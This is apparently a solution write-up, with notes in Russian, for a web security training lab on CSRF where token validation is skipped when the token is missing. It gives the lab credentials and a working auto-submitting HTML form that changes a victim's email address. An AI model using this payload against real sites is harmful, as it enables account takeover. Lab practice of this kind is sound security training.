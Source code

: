 # CSRF where token validation depends on token being present
PRACTITIONER

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

## Решение
Решение без токена работает:
```
<html>
<body>
    <form action="https://0a2d0071037ce7b783207ea8001d00a2.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="wiener123@normal-user.net" />
    </form>
    <script>document.forms[0].submit();</script>
</body>
</html>
```
Deliver exploit to victim -> задание выполнено.
